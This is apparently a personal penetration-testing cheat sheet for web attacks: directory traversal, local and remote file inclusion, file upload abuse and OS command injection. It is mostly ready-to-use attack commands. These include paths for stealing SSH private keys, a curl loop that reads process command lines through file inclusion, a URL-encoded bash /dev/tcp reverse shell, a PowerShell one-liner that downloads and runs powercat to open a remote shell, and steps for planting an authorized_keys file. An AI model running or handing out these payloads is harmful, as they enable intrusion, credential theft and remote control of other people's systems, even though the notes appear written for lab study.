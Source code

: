 # Directory traversal

- Get username 
    
    ``` /etc/passwd ```

- Exploit directory traversals: Get ssh key

    ``` /home/{username}/.ssh/id_rsa
    vim key
    chmod 400 dt_key
     ```
    
-  Window: 
   ``` C:\Users\All Users\ssh\ssh_host_rsa_key.pub  ```

- Encoding special character
    
    e.g. . -> %2f 

- cgi-bin vuln

- Encoding not a must

# File Inclusion Vuln

- Loading a file and attach CMD

- Reverse shell & web shell
## Interesting Arguments
1. ``` powershell.exe -EncodedCommand {base64 command} ```

## Local File Inclusion LFI
### Auto smash LFI
- https://github.com/D35m0nd142/LFISuite 
### For loop get linux process by LFI
- edit the path
- ```
  for i in $(seq 0 2000); do echo -n "$i:"; curl google.com/wp-content/plugins/filter.php?url=../../../../../../../../../../../proc/$i/cmdline --output -;echo; done
  ```

- Header poison URL may differs from Log Poisoning 
- TCP reverse shell one-liner
  ``` bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 ```
1. try find useful password after /etc/passwd for opening services (you scanned!) e.g. redis have rce -> go get ``` /etc/redis/redis.conf ```
2. can use it to priv esc too! -> creating a rogue php inside the file system and load it e.g. /run/redis/test.php || CHECK ALL WRITABLE PATH!!c
3. See the source code of the web! e.g. index.php, main.py
### Interesting file path
1. Service configuration files
2. leaked db file path e.g. /var/db/mydb <- this is sqlite
3. oscp cheat sheet listed files
4. [Windows] Progra~1 = program files | Progra~2 = program files (x86)

### WAF?
1. Only Local host:
- Try adding ``` X-Forwarded-For: 127.0.0.1 ```

## RFI
- Least common (LFI > RFI)
- Host a web server for exposing exploit php 
  
  e.g. php-reverse-shell.php

  ``` python3 -m http.server 80 ```
- open reverse shell server

    ``` nc -lvnp 4444 ```
- RFI request to the website
  
  ``` ?page=http://{ip}/php-reverse-shell.php ```



# File Upload Vuln
 
## w/ Executable Files
1. Prepare a file that can run CMD
2. Reverse shell
3. file type exclusion e.g. php -> pHP
4. aspx -> mspx  


## w/o Executable Files
1. Generate SSH key: will get id_rsa and id_rsa.pub 

    ``` ssh-keygen ```

2. Edit filename of ``` id_rsa.pub ``` to ``` authorized_keys ```

3. Upload to the file to /home/{user}/.ssh OR /root/.ssh

4. Login with ssh ``` ssh emilia@ip -i -id_rsa ```

- Becareful have to remove ```.ssh/known_hosts``` in kali pc since different section computer


# OS Cmd injection

- Check which command is allow which is not, then use ``` & ``` to piggyback it


- Windows oneliner get vuln file & reverse shell
``` IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell  ```

- exploitable could be ``` ;  && ```
- remember to encode url sometimes
